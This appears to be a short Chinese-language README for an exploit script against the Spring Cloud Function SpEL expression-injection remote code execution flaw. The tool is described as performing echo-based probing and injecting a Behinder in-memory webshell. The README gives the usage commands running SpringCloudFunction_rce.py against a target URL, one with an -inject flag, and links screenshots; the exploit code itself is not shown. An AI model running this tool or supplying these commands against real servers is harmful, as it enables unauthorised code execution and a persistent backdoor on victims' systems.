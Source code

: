 # Spring-cloud-function-SpEL-RCE
针对Spring-cloud-function-SpEL表达式注入进行回显和内存马注入的exp
# 使用
回显探测

python3 SpringCloudFunction_rce.py -url http://127.0.0.1:8088/

<img width="565" alt="image" src="https://user-images.githubusercontent.com/38367493/165876405-edbbee29-bb5c-4cc3-a03c-881b8a9d9c4b.png">

注入冰蝎

python3 SpringCloudFunction_rce.py -url http://127.0.0.1:8088/ -inject

<img width="773" alt="image" src="https://user-images.githubusercontent.com/38367493/165486095-87938c34-b3b2-43f3-a341-17ef606bd448.png">

<img width="1000" alt="image" src="https://user-images.githubusercontent.com/38367493/165486771-01e3ea5b-dbd6-4e14-9559-fa24483faa59.png">

